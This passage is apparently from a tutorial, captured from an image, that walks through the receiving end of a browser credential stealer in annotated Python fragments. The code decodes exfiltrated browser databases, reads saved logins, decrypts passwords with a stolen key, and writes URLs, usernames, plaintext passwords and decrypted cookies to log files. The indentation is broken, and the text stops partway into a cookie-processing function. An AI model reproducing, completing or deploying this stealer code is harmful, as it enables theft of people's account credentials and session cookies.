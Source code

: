     decoded_data = base64.b64decode(file_data)
    db_name = f'{browser_name}_{param_name}_{idx}.db'
    db_path = os.path.join(unique_id_logs_dir, db_name)

    with open(db_path, 'wb ') as db_file:
    db_file.write(decoded_data)

[/CODE] This code decodes files from base64, namely databases with logins and passwords. Then these decoded files are written to the log folder that we created earlier.
[CODE=python]

    if (param_name == "login_data"):
    connection = sqlite3.connect(db_path)
    cursor = connection.cursor()
    cursor.execute("SELECT origin_url, username_value, password_value FROM logins")
[/CODE] If JSON contains the login_data parameter, then in this case a connection to this database occurs
[CODE=python]

    origin_url = row[0]
    username_value = row[1]
    encrypted_password = row[2]
[/CODE] These rows are responsible for extracting data from the columns
[CODE=python]

    decrypted_password = decrypt_password(encrypted_password, key)
[/CODE]The decrypt_password function is called and passed the encrypted password and the key     that was previously decoded from base64.
[CODE=python]

    passwords_file.write(f'Browser: {browser_name}\n')
    passwords_file.write(f'Origin URL: {origin_url}\n')
    passwords_file.write(f'Username: {username_value}\n' )
    passwords_file.write(f'Password: {decrypted_password}\n')
[/CODE] Write data from database columns to a previously created text file for passwords, and the     decrypted password itself.
[CODE=python]

    elif param_name == "cookies":
    cookies_file_path = os.path.join(unique_id_logs_dir,
                                     f'cookies_{browser_name}_{idx}.txt')
    process_cookies(decoded_data, key, cookies_file_path)
    print(f"File {db_name} was successfully saved and cookies were decrypted.")
[/CODE] In this code, it first checks whether there is a cookies parameter in the JSON; if it exists, then the path for saving the file is formed.
[CODE=python]

    process_cookies(decoded_data, key, cookies_file_path)
[/CODE] The process_cookie function is called, which is passed the key, decoded cookie data and the path to the file in which the cookies will be written.
We have already discussed the decryption function earlier in an example of how it all works. So let's look at the process_cookies function for working with cookies.

[CODE=python]

    def process_cookies(cookies_db, master_key, cookies_file_path):
